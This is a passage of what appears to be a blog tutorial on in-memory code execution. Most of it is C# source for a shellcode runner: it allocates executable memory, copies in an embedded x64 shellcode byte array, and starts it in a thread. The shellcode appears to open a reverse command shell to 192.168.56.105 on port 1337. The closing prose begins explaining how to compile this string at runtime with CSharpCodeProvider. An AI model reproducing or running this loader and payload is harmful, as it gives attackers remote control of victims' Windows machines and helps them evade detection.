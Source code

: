         [DllImport(""kernel32"")]
        private static extern IntPtr CreateThread(IntPtr lpThreadAttributes, UInt32 dwStackSize, IntPtr lpStartAddress, IntPtr param, UInt32 dwCreationFlags,  IntPtr lpThreadId);
        
        [DllImport(""kernel32"")]
        private static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

        [DllImport(""kernel32"")]
        private static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);
        
        private static UInt32 MEM_COMMIT = 0x1000;
        private static UInt32 PAGE_EXECUTE_READWRITE = 0x40;
        static void Main(string[] args)
        {
           byte[] shellCode = new byte[460] {
              0xfc,0x48,0x83,0xe4,0xf0,0xe8,0xc0,0x00,0x00,0x00,0x41,0x51,0x41,0x50,0x52,
              0x51,0x56,0x48,0x31,0xd2,0x65,0x48,0x8b,0x52,0x60,0x48,0x8b,0x52,0x18,0x48,
              0x8b,0x52,0x20,0x48,0x8b,0x72,0x50,0x48,0x0f,0xb7,0x4a,0x4a,0x4d,0x31,0xc9,
              0x48,0x31,0xc0,0xac,0x3c,0x61,0x7c,0x02,0x2c,0x20,0x41,0xc1,0xc9,0x0d,0x41,
              0x01,0xc1,0xe2,0xed,0x52,0x41,0x51,0x48,0x8b,0x52,0x20,0x8b,0x42,0x3c,0x48,
              0x01,0xd0,0x8b,0x80,0x88,0x00,0x00,0x00,0x48,0x85,0xc0,0x74,0x67,0x48,0x01,
              0xd0,0x50,0x8b,0x48,0x18,0x44,0x8b,0x40,0x20,0x49,0x01,0xd0,0xe3,0x56,0x48,
              0xff,0xc9,0x41,0x8b,0x34,0x88,0x48,0x01,0xd6,0x4d,0x31,0xc9,0x48,0x31,0xc0,
              0xac,0x41,0xc1,0xc9,0x0d,0x41,0x01,0xc1,0x38,0xe0,0x75,0xf1,0x4c,0x03,0x4c,
              0x24,0x08,0x45,0x39,0xd1,0x75,0xd8,0x58,0x44,0x8b,0x40,0x24,0x49,0x01,0xd0,
              0x66,0x41,0x8b,0x0c,0x48,0x44,0x8b,0x40,0x1c,0x49,0x01,0xd0,0x41,0x8b,0x04,
              0x88,0x48,0x01,0xd0,0x41,0x58,0x41,0x58,0x5e,0x59,0x5a,0x41,0x58,0x41,0x59,
              0x41,0x5a,0x48,0x83,0xec,0x20,0x41,0x52,0xff,0xe0,0x58,0x41,0x59,0x5a,0x48,
              0x8b,0x12,0xe9,0x57,0xff,0xff,0xff,0x5d,0x49,0xbe,0x77,0x73,0x32,0x5f,0x33,
              0x32,0x00,0x00,0x41,0x56,0x49,0x89,0xe6,0x48,0x81,0xec,0xa0,0x01,0x00,0x00,
              0x49,0x89,0xe5,0x49,0xbc,0x02,0x00,0x05,0x39,0xc0,0xa8,0x38,0x69,0x41,0x54,
              0x49,0x89,0xe4,0x4c,0x89,0xf1,0x41,0xba,0x4c,0x77,0x26,0x07,0xff,0xd5,0x4c,
              0x89,0xea,0x68,0x01,0x01,0x00,0x00,0x59,0x41,0xba,0x29,0x80,0x6b,0x00,0xff,
              0xd5,0x50,0x50,0x4d,0x31,0xc9,0x4d,0x31,0xc0,0x48,0xff,0xc0,0x48,0x89,0xc2,
              0x48,0xff,0xc0,0x48,0x89,0xc1,0x41,0xba,0xea,0x0f,0xdf,0xe0,0xff,0xd5,0x48,
              0x89,0xc7,0x6a,0x10,0x41,0x58,0x4c,0x89,0xe2,0x48,0x89,0xf9,0x41,0xba,0x99,
              0xa5,0x74,0x61,0xff,0xd5,0x48,0x81,0xc4,0x40,0x02,0x00,0x00,0x49,0xb8,0x63,
              0x6d,0x64,0x00,0x00,0x00,0x00,0x00,0x41,0x50,0x41,0x50,0x48,0x89,0xe2,0x57,
              0x57,0x57,0x4d,0x31,0xc0,0x6a,0x0d,0x59,0x41,0x50,0xe2,0xfc,0x66,0xc7,0x44,
              0x24,0x54,0x01,0x01,0x48,0x8d,0x44,0x24,0x18,0xc6,0x00,0x68,0x48,0x89,0xe6,
              0x56,0x50,0x41,0x50,0x41,0x50,0x41,0x50,0x49,0xff,0xc0,0x41,0x50,0x49,0xff,
              0xc8,0x4d,0x89,0xc1,0x4c,0x89,0xc1,0x41,0xba,0x79,0xcc,0x3f,0x86,0xff,0xd5,
              0x48,0x31,0xd2,0x48,0xff,0xca,0x8b,0x0e,0x41,0xba,0x08,0x87,0x1d,0x60,0xff,
              0xd5,0xbb,0xf0,0xb5,0xa2,0x56,0x41,0xba,0xa6,0x95,0xbd,0x9d,0xff,0xd5,0x48,
              0x83,0xc4,0x28,0x3c,0x06,0x7c,0x0a,0x80,0xfb,0xe0,0x75,0x05,0xbb,0x47,0x13,
              0x72,0x6f,0x6a,0x00,0x59,0x41,0x89,0xda,0xff,0xd5 };

            IntPtr rwxMemory = VirtualAlloc(IntPtr.Zero, (uint)shellCode.Length, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
            Marshal.Copy(shellCode, 0, rwxMemory, shellCode.Length);
            IntPtr shellCodeThread = CreateThread(IntPtr.Zero, 0, rwxMemory, IntPtr.Zero, 0, IntPtr.Zero);
            WaitForSingleObject(shellCodeThread, 0xFFFFFFFF);

        }
    }
}
";
{% endhighlight %}
We will treat this string as the source code we will compile and run. With the Rosylyn API's, we create a CSharpCodeProvider object. This objectis designed to give functionality to generate and compile C# code. With this object we ask it for a Compiler object, which allows us to specify different compile options and eventually compile provided C# source code.
{% highlight csharp %}
Microsoft.CSharp.CSharpCodeProvider provider = new CSharpCodeProvider();
ICodeCompiler compiler = provider.CreateCompiler();